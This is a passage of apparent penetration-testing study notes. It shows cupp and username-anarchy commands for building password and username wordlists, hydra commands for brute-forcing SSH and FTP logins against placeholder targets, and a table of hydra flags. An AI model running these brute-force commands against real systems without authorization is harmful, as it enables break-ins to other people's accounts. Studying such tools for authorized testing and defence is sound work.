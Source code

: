 We have an interactive option to run with `-i`, which will be asking us for entries:
```console
zero@pio$ cupp -i
```

## Usernames 

We can use the following Github, [Username Anarchy](https://github.com/urbanadventurer/username-anarchy), to generate wordlist of usernames from one word:
```console
zero@pio$ ./username-anarchy <word> > wordlist.txt
```

---

# Service Authentication Brute Forcing 

We simply have to provide the username/password wordlists, and add `service://SERVER_IP:PORT` at the end. As usual, we will add the `-u` `-f` flags.

## SSH Attack

When we run the command for the first time, hydra will suggest that we add the `-t 4` flag for a max number of parallel attempts, as many SSH limit the number of parallel connections and drop other connections, resulting in many of our attempts being dropped. Our final command should be as follows:
```console
zero@pio$ hydra -L <wordlist> -P <password> -u -f ssh://<ip>:<port> -t 4
```

## FTP Brute Forcing 

Similar to the SSH:
```console
zero@pio$ hydra -l <wordlist> -P <wordlist> ftp://<ip>
```


--- 

# Hydra Flags 

| **Flag**   | **Description**    |
|--------------- | --------------- |
| `-C`   | Combined Credentials Wordlist   |
| `-l` | Set the user |
| `-L` | Username wordlist |
| `-p` | Set the password |
| `-P` | Password wordlist |
| `-u` | Loop around users, not passwords |
| `-s <port>` | Target port |
| `-f` | Stop after the first successful try |
| `http-get` | Request method | 

